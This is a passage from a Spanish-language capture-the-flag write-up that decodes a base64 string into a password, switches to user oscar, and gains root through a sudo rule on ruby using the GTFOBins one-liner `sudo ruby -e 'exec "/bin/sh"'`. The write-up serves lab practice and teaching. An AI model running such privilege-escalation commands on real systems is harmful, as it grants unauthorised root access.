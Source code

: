 - **|**: El símbolo | se conoce como pipe. Se utiliza para redirigir la salida de un comando como entrada a otro comando. En este caso el resultado de echo... es la entrada de `base64 -d`  

- **_base64_**: Es un comando que se utiliza para codificar o decodificar datos en Base64.  

- **_-d_**: Es una opción que significa "decode" (decodificar). Indica que deseas decodificar la entrada en lugar de codificarla.  

<br>

Resultado: `eslacasadepinypon`

<br>

---

<br>

Teniendo ya lo que se intuye que es la contraseña de alguno de los usuarios que encontramos en la sesión de carlota, `carlota  oscar  ubuntu`, intentaremos logearnos.  

Nos conectamos como `oscar` con el comando `su oscar` ("su" significa Switch User) y poniendo la contraseña que acabamos de decodificar nos hemos conectado como _Oscar_.  

Toca escalar privilegios (no lo hicimos con Carlota porque no tiene permisos para ejecutar _sudo_), con `sudo -l` lo cual nos lista los binarios que podemos ejecutar con los privilegios de root sin tener la contraseña de este:  

```
$ whoami
oscar
$ sudo -l
Matching Defaults entries for oscar on 88bfc36c261d:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User oscar may run the following commands on 88bfc36c261d:
    (ALL) NOPASSWD: /usr/bin/ruby
$ 
```  

<br>

Como siempre vamos a la página [enlace GTFObins](https://gtfobins.github.io/) y entramos a la opción de **_sudo_** del binario **_ruby_** , debemos ejecutar: `sudo ruby -e 'exec "/bin/sh"'` y ya está...  

<br>

```
$ sudo ruby -e 'exec "/bin/sh"'
# whoami
root
```

<br>

---

<br>

Ya estaría, muchas gracias por seguir este writeup tan extenso y con tanta teoría, adios!! 😊😊
